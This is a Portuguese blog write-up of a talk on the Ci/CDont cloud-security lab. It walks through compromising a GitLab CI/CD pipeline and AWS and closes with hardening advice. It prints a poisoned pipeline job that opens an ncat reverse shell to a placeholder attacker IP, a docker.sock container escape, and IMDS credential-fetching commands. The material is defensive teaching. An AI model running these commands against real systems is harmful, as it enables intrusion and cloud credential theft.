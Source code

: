 ```yaml
---
title: "<span>CI/CDon’t</span>: Um Lab sobre Invasão de Pipelines"
date: 2025-04-10
description: "Explorando falhas em pipelines CI/CD usando GitLab e AWS com o laboratório Ci/CDont do Hacking the Cloud"
tags: ["security", "devsecops", "pipeline", "aws", "gitlab", "hacking"]
categories: ["segurança", "cloud"]
slug: "cicdont"
author: "Fernando Guisso"
---
```


Como um simples `.gitlab-ci.yml` pode comprometer toda a sua infraestrutura na AWS?

Neste artigo, vou compartilhar uma palestra que apresentei sobre o lab **[Ci/CDont](https://hackingthe.cloud/aws/capture_the_flag/cicdont/)** — um laboratório criado para demonstrar, de forma prática, como **pipelines CI/CD mal configuradas** podem se transformar em verdadeiras portas de entrada para invasores.

---

## Outros Labs que Você Pode Explorar

Se você curte labs hands-on de segurança em nuvem, recomendo essas plataformas:

- [AWSGoat](https://github.com/ine-labs/AWSGoat)  
- [GCPGoat](https://github.com/ine-labs/GCPGoat)  
- [AzureGoat](https://github.com/ine-labs/AzureGoat)  
- [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/)  
- [CICDGoat](https://github.com/cider-security-research/cicd-goat)  
- [IAM Vulnerable](https://github.com/BishopFox/iam-vulnerable)  
- [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat)  
- [Hacking The Cloud Labs](https://hackingthe.cloud)

## Por que o CI/CDon’t?

Esse lab nos ajuda a:

- Entender como pipelines podem ser exploradas por atacantes reais  
- Simular ataques usando GitLab + AWS  
- Desenvolver o olhar defensivo com base em exploração real  
- Praticar sozinho ou em grupo com poucos recursos

## Etapa 1 — Acesso ao GitLab

O atacante pode iniciar o ataque por:

- Registro aberto no GitLab com acesso a repositórios e jobs
- Comprometimento de contas por:
  - Senhas fracas
  - [Password Spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack)
  - [Phishing](https://pt.wikipedia.org/wiki/Phishing), mesmo com MFA ativo

**Dica**: Segurança do usuário importa — sempre.

## Etapa 2 — Pipeline Poisoning

Com acesso ao repositório, o atacante modifica o `.gitlab-ci.yml` para injetar código malicioso.

```yaml
build-job:
  stage: build
  script:
    - apt update
    - apt install -y ncat
    - ncat <ip_do_atacante> --ssl -e /bin/bash -v
```

Esse ataque permite executar um **reverse shell** e obter acesso direto ao runner da pipeline.

Saiba mais: [GitLab CI/CD Pipelines](https://docs.gitlab.com/ee/ci/)

## Etapa 3 — Escalada de Privilégios

Com acesso ao runner, o atacante:

- Busca scripts rodando como root
- Abusa de permissões mal configuradas
- Enxerga recursos internos da rede
- E às vezes... encontra o **docker.sock**

## Etapa 4 — Docker Socket e Escapando do Container

Se o `docker.sock` estiver acessível no container, o atacante pode escapar facilmente:

```bash
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

🔥 Isso dá acesso ao host com permissões do processo `PID 1`.

## Etapa 5 — Explorando o IMDS

O [IMDS (Instance Metadata Service)](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) fornece dados da instância, incluindo **credenciais temporárias IAM**.

```bash
# IMDSv2
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/user-data/
```

Com isso, o atacante pode acessar outros recursos na AWS como se fosse a própria instância.

## Lições Aprendidas

- CI/CD é infraestrutura crítica — trate como tal
- Proteja:
  - Acesso ao GitLab ([GitLab Hardening Guide](https://about.gitlab.com/security/hardening/))
  - Configuração dos runners ([Runner Security](https://docs.gitlab.com/runner/security/))
  - Permissões das instâncias e roles IAM
  - Logs, artefatos e variáveis sensíveis
